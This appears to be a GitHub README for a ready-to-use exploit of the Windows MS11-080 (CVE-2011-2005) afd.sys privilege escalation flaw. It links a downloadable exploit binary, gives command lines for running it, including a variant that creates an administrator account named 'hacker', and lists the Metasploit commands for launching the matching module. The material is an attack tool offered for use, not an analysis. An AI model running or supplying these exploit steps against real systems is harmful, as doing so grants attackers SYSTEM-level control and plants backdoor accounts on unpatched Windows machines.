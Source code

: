 # MS11-080 
```
This module exploits a flaw in the AfdJoinLeaf function of the afd.
sys driver to overwrite data in kernel space. 
An address within the HalDispatchTable is overwritten 
and when triggered with a call to NtQueryIntervalProfile will execute shellcode. 
This module will elevate itself to SYSTEM, then inject the payload into another 
SYSTEM process before restoring it's own token to avoid causing system instability.
```
- The exp was from [@BHaFSec](www.bhafsec.com/files/windows/ms11-080.exe)

Vulnerability reference:
 * [MS11-080](https://technet.microsoft.com/library/security/ms11-080)
 * [CVE-2011-2005](https://www.exploit-db.com/exploits/18176/)

## Usage
+ c:\\> ms11-080.exe -O 2k3 
+ c:\\> ms11-080-AddUser.exe -O 2k3
+ [*] Adding Admin User:hacker Pass:Hacked!...

![win2003](win2003.png)  

![win7](win7.jpg)  

##  load the module within the msf
- [msf](https://www.rapid7.com/db/modules/exploit/windows/local/ms11_080_afdjoinleaf)
```
msf > use exploit/windows/local/ms11_080_afdjoinleaf
msf exploit(ms11_080_afdjoinleaf) > show targets
    ...targets...
msf exploit(ms11_080_afdjoinleaf) > set TARGET <target-id>
msf exploit(ms11_080_afdjoinleaf) > show options
    ...show and set options...
msf exploit(ms11_080_afdjoinleaf) > exploit
```

